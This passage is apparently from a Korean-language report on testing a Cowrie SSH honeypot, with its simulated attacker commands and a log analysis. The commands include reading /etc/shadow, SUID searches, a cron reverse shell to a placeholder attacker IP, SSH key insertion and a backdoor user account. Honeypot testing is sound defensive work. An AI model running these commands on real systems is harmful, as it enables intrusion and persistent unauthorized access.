 ### 6.4 권한 상승(Privilege Escalation) 시뮬레이션

```bash
# 시스템 정보 수집
cat /etc/passwd
cat /etc/shadow
cat /proc/version
ls -la /etc/cron*

# 네트워크 정보 확인
netstat -antup
ss -tulpn
cat /etc/hosts

# 실행 중인 프로세스 확인
ps aux
top

# 파일 시스템 탐색
find / -type f -perm -4000 2>/dev/null
find /var/www -type f -name "*.php" 2>/dev/null
```

### 6.5 지속성 확보(Persistence) 시뮬레이션

```bash
# 백도어 설치 시도
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/[ATTACKER_IP]/4444 0>&1'" >> /etc/crontab

# SSH 키 삽입 시도
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2E..." >> ~/.ssh/authorized_keys

# 새로운 사용자 생성 시도
useradd -m -s /bin/bash backdoor
echo "backdoor:password123" | chpasswd
```

---

## 7. 보안 분석 및 결과

### 7.1 공격 로그 분석

#### 7.1.1 연결 로그
```
2024-12-14T10:30:15.123456Z [cowrie.ssh.transport.HoneyPotSSHTransport] 
New connection: [ATTACKER_IP]:38670 ([TARGET_IP]:2222) [session: a1b2c3d4]
Remote SSH version: SSH-2.0-OpenSSH_9.9p1 Debian-3
```

**분석**:
- 공격자 IP: `[ATTACKER_IP]`
- 공격 도구: OpenSSH 9.9p1 (Kali Linux 표준)
- 접속 시간: 정확한 타임스탬프 기록
